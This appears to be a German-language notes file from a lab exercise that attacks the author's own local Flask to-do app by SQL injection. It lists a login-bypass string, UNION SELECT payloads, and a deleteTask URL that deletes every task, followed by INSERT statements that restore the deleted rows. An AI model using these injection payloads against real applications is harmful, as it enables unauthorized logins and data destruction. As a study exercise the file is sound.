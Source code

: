 
# Injections:
## Login:
    # Beim username folgendes eingeben: ' OR id = 1; -- 
    # Passwort mit mehr als 3 Zeichen befüllen und go :)
    # Anmeldung erfolgt mit dem user, welcher die eingetragene ID hat

# Union SELECT:
## /tasks Projectname=
    # ' UNION SELECT "888 UNION SELECT * FROM user"; --%20
    # ' UNION SELECT "888 UNION SELECT * FROM user"; --%20

## deleteTask:
    # Sagen wir ich habe diesen Link: http://127.0.0.1:8099/deleteTask?todo_id=25
    # Ich könnte das draus machen: http://127.0.0.1:8099/deleteTask?todo_id=1 OR description IS NOT NULL; -- 

# Zum Todos wiederherstellen:
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (1, 'Build a Flask app', '2024-05-01 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (2, 'Finalize project scope', '2024-04-15 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (4, 'Implement authentication system', '2024-04-25 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (5, 'Develop the user profile section', '2024-05-05 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (6, 'Setup database backups', '2024-05-10 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (7, 'Run user acceptance testing', '2024-05-15 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (8, 'Deploy the application to production', '2024-05-20 00:00:00', 1, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (9, 'Conduct post-launch review meeting', '2024-05-25 00:00:00', 4, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (10, 'Salat', NULL, 3, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (16, 'asdasd', '2024-04-27 19:00:00', 3, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (18, 'test', NULL, 2, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (23, 'alio', NULL, 4, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (24, 'hehe', NULL, 99, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (25, 'hehe2', NULL, 99, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (26, 'testserfsdf', NULL, 3, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (27, 'sdfsdf', '2024-04-30 15:14:00', 3, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (28, 'asdasd', NULL, 4, 0);
#INSERT INTO todo (id, description, due_date, project_id, is_completed) VALUES (29, 'asdasd', NULL, 2, 0);
